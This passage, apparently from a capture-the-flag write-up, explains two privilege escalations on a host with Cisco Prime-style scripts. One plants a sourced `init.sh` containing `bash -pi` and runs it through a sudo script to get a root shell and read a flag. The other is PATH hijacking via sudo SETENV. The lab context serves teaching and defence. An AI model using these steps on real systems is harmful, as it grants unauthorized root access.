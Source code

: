 At line 2 we see `. init.sh`. The `.` (dot) is shorthand for `source` which ensures that the script is executed in the current shell environment rather than in a new subprocess. In other words, any changes made to the environment will take effect and stay in the current shell context.

- `./init.sh` would search the current working directory for any executables named `init.sh`
- `init.sh` would search the directories specified in the PATH-variable.
- `. init.sh` checks current working directory and runs it in the current shell context.

### Exploit

To exploit this, create a file named `init.sh` and make it executable. `bash -pi` runs bash interactively in privileged mode where it ignores the usual initialization files, such as `~/.bashrc`, and keeps the environment variables. In other words, runs bash as root.

```bash
cd /tmp
echo "bash -pi" > init.sh
chmod +x init.sh
sudo /opt/CSCOlumos/rcmds/checkHAReadiness.sh

id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
cat /root/root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```

---

## PrivEsc #2

The `init.sh` file sets environment variables for the scripts. Since we have `SETENV` permissions with sudo, we can provide custom environment variables. Let's examine the PATH variable.

The `PATH` variable specifies directories where the system searches for executables, checking each directory in order and running the first match it finds. By placing a custom directory at the beginning, we can hijack commands, tricking the system into running our scripts instead of the intended binaries.

The first few lines of `init.sh` are:

```bash
#/bin/echo $PATH
export PATH="$PATH:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin"


#INSTALL_HOME=${INTALL_HOME:-/opt/CSCOlumos}
INSTALL_HOME=/opt/CSCOlumos
export INSTALL_HOME
```

In line 2, the script modifies `PATH` by appending additional directories. Since the system searches `PATH` from left to right, we can potentially run any command we want by prepending our own path. For instance, if one of the scripts runs `lspci`, the OS will search each directory in `PATH` sequentially, executing the first `lspci` it finds. By prepending our custom path, we can redirect this to run any command we choose. A possible remediation could be to append the current path instead of prepending it.
